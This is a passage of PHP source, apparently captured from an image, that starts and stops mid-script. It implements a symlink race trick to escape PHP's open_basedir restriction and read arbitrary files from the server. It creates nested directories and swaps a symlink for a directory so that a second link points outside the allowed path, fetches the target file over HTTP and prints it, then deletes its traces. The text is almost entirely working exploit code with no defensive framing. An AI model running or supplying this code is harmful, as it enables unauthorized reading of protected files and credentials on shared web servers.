 ```php
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
```